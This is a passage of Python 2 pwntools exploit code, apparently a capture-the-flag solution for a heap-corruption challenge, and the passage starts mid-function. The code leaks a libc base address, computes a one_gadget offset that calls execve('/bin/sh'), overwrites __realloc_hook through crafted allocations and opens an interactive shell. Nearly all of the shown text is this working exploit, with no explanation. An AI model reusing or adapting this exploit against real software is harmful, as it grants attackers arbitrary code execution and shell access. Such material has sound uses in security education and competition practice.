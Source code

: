 ```
        return

    ru("\x7f")
    libc.address = u64(ru("\x7f")[-6:].ljust(8,"\x00")) - 0x3eb780
    print hex(libc.address)
    one = libc.address+0x10a38c
    
    '''
    0x10a38c        execve("/bin/sh", rsp+0x70, environ)
    constraints:
    [rsp+0x70] == NULL
    '''
    # malloc_hook

    new(0x68, p64(0) * 12+p64(libc.symbols['__realloc_hook']),line=0)
    new(0x38,"")
    new(0x38,p64(one)+p64(libc.symbols["realloc"]+4))
    new(0x30,"")
    io.interactive()

exp()
```